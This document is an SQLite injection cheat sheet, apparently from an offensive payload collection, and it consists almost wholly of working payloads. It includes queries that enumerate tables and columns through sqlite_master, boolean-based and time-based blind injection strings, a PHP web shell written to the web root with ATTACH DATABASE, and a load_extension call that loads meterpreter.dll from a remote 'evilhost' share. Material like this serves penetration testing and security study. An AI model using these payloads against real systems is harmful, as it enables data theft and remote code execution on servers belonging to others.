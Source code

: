 # SQLite Injection

## SQLite comment
```sql
--
/**/
```

## SQLite version
```sql
select sqlite_version();
```

## Integer/String based - Extract table name
```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```
Use limit X+1 offset X, to extract all tables.

## Integer/String based - Extract column name
```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

For a clean output
```sql
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

## Boolean - Count number of tables
```sql
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - Enumerating table name
```sql
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## Boolean - Extract info
```sql
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## Time based
```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```

## Remote Command Execution using SQLite command - Attach Database
```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ('<?system($_GET['cmd']); ?>');--
```

## Remote Command Execution using SQLite command - Load_extension
```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```
Note: By default this component is disabled

## Thanks to
[Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/41397.pdf)
